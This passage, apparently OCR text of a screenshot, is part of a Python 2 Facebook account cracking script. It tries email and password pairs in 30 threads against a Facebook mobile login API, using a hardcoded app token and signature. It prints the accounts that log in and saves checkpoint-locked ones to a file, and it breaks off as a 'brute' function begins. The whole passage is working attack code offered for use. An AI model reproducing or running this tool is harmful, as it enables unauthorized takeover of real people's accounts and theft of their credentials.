 															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

															q = json.load(data)

															if 'access_token' in q:

																print '\x1b[1;92m[OK] \x1b[1;92m ' + user  + ' \x1b[1;36;40m|\x1b[1;92m ' + pass7 + ' 👽 ' + b['name']

																oks.append(user+pass7)

															else:

																if 'www.facebook.com' in q["error_msg"]:

																	print '\x1b[1;36;40m[CP] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass7 + ' 👽 ' + b['name']

																	cek = open("out/CP.txt", "a")

																	cek.write(user+"|"+pass7+"\n")

																	cek.close()

																	cekpoint.append(user+pass7)

		except:																		

			pass

		

	p = ThreadPool(30)

	p.map(main, id) 

	

	print '\033[1;31;40m[✓] Process Has Been Completed\033[1;96m....'

	print "\033[1;32;40m[+] Total OK/\x1b[1;93mCP \033[1;91m: \033[1;91m"+str(len(oks))+"\033[1;31;40m/\033[1;36;40m"+str(len(cekpoint))

	print '\033[1;34;40m[+] CP File Has Been Saved : save/cp.txt'

	print """

\033[1;31;40m ●════════════════════════◄►════════════════════════●

           """

	raw_input("\n\033[1;96m[\033[1;97mExit\033[1;96m]")

	super()

def brute():

    os.system('clear')

    try:

        toket = open('login.txt', 'r').read()
